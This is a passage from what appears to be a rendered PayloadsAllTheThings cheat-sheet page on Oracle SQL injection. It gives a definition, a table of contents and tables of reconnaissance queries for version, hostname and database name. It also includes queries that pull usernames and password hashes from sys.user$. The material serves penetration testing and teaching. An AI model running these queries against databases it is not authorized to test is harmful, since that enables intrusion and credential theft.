

repository: MnifR/PayloadsAllTheThings · page: SQL Injection/OracleSQL Injection/index.html · generator: mkdocs

# Oracle SQL Injection

> Oracle SQL Injection  is a type of security vulnerability that arises when attackers can insert or "inject" malicious SQL code into SQL queries executed by Oracle Database. This can occur when user inputs are not properly sanitized or parameterized, allowing attackers to manipulate the query logic. This can lead to unauthorized access, data manipulation, and other severe security implications.

## Summary

* [Oracle SQL Default Databases](#oracle-sql-default-databases)
* [Oracle SQL Comments](#oracle-sql-comments)
* [Oracle SQL Enumeration](#oracle-sql-enumeration)
* [Oracle SQL Database Credentials](#oracle-sql-database-credentials)
* [Oracle SQL Methodology](#oracle-sql-methodology)
    * [Oracle SQL List Databases](#oracle-sql-list-databases)
    * [Oracle SQL List Tables](#oracle-sql-list-tables)
    * [Oracle SQL List Columns](#oracle-sql-list-columns)
* [Oracle SQL Error Based](#oracle-sql-error-based)
* [Oracle SQL Blind](#oracle-sql-blind)
    * [Oracle Blind With Substring Equivalent](#oracle-blind-with-substring-equivalent)
* [Oracle SQL Time Based](#oracle-sql-time-based)
* [Oracle SQL Out of Band](#oracle-sql-out-of-band)
* [Oracle SQL Command Execution](#oracle-sql-command-execution)
    * [Oracle Java Execution](#oracle-java-execution)
    * [Oracle Java Class](#oracle-java-class)
* [OracleSQL File Manipulation](#oraclesql-file-manipulation)
    * [OracleSQL Read File](#oraclesql-read-file)
    * [OracleSQL Write File](#oraclesql-write-file)
    * [Package os_command](#package-os_command)
    * [DBMS_SCHEDULER Jobs](#dbms_scheduler-jobs)
* [References](#references)

## Oracle SQL Default Databases

| Name   | Description               |
| ------ | ------------------------- |
| SYSTEM | Available in all versions |
| SYSAUX | Available in all versions |

## Oracle SQL Comments

| Type                | Comment |
| ------------------- | ------- |
| Single-Line Comment | `--`    |
| Multi-Line Comment  | `/**/`  |

## Oracle SQL Enumeration

| Description   | SQL Query                                                    |
| ------------- | ------------------------------------------------------------ |
| DBMS version  | `SELECT user FROM dual UNION SELECT * FROM v$version`        |
| DBMS version  | `SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';`  |
| DBMS version  | `SELECT banner FROM v$version WHERE banner LIKE 'TNS%';`     |
| DBMS version  | `SELECT BANNER FROM gv$version WHERE ROWNUM = 1;`            |
| DBMS version  | `SELECT version FROM v$instance;`                            |
| Hostname      | `SELECT UTL_INADDR.get_host_name FROM dual;`                 |
| Hostname      | `SELECT UTL_INADDR.get_host_name('10.0.0.1') FROM dual;`     |
| Hostname      | `SELECT UTL_INADDR.get_host_address FROM dual;`              |
| Hostname      | `SELECT host_name FROM v$instance;`                          |
| Database name | `SELECT global_name FROM global_name;`                       |
| Database name | `SELECT name FROM V$DATABASE;`                               |
| Database name | `SELECT instance_name FROM V$INSTANCE;`                      |
| Database name | `SELECT SYS.DATABASE_NAME FROM DUAL;`                        |
| Database name | `SELECT sys_context('USERENV', 'CURRENT_SCHEMA') FROM dual;` |

## Oracle SQL Database Credentials

| Query                                   | Description               |
| --------------------------------------- | ------------------------- |
| `SELECT username FROM all_users;`       | Available on all versions |
| `SELECT name, password from sys.user$;` | Privileged, <= 10g        |
| `SELECT name, spare4 from sys.user$;`   | Privileged, <= 11g        |

## Oracle SQL Methodology

### Oracle SQL List Databases

```sql
SELECT DISTINCT owner FROM all_tables;
SELECT OWNER FROM (SELECT DISTINCT(OWNER) FROM SYS.ALL_TABLES)
```
